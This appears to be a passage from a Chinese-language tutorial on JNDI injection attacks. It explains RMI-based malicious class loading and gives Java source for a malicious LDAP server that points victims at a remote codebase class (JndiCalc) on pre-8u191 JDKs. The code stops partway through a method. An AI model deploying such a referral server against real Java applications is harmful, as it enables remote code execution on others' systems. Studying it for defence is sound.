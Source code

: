 将恶意类编译为`class`文件，用`python`起`web`服务，客户端访问`rmi`服务器时，`rmi`服务器返回一个`http`服务，客户端访问`http`服务请求其中的恶意类就可以导致代码执行

## JNDI+ldap

还是同样的原理，只不过这次是ldap

JDNILdapServer.java代码

```java
import com.unboundid.ldap.listener.InMemoryDirectoryServer;  
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;  
import com.unboundid.ldap.listener.InMemoryListenerConfig;  
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;  
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;  
import com.unboundid.ldap.sdk.Entry;  
import com.unboundid.ldap.sdk.LDAPException;  
import com.unboundid.ldap.sdk.LDAPResult;  
import com.unboundid.ldap.sdk.ResultCode;  
import javax.net.ServerSocketFactory;  
import javax.net.SocketFactory;  
import javax.net.ssl.SSLSocketFactory;  
import java.net.InetAddress;  
import java.net.MalformedURLException;  
import java.net.URL;  
  
  
// jndi 绕过 jdk8u191 之前的攻击  
public class JNDILdapServer {  
    private static final String LDAP_BASE = "dc=example,dc=com";  
 public static void main (String[] args) {  
        String url = "http://127.0.0.1:7777/#JndiCalc";  
 int port = 1099;  
 try {  
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);  
 config.setListenerConfigs(new InMemoryListenerConfig(  
                    "listen",  
 InetAddress.getByName("0.0.0.0"),  
 port,  
 ServerSocketFactory.getDefault(),  
 SocketFactory.getDefault(),  
 (SSLSocketFactory) SSLSocketFactory.getDefault()));  
  
 config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));  
 InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);  
 System.out.println("Listening on 0.0.0.0:" + port);  
 ds.startListening();  
 }  
        catch ( Exception e ) {  
            e.printStackTrace();  
 }  
    }  
    private static class OperationInterceptor extends InMemoryOperationInterceptor {  
        private URL codebase;  
 /**  
 * */ public OperationInterceptor ( URL cb ) {  
            this.codebase = cb;  
 }  
        /**  
 * {@inheritDoc}  
 * * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)  
 */ @Override  
 public void processSearchResult ( InMemoryInterceptedSearchResult result ) {  
```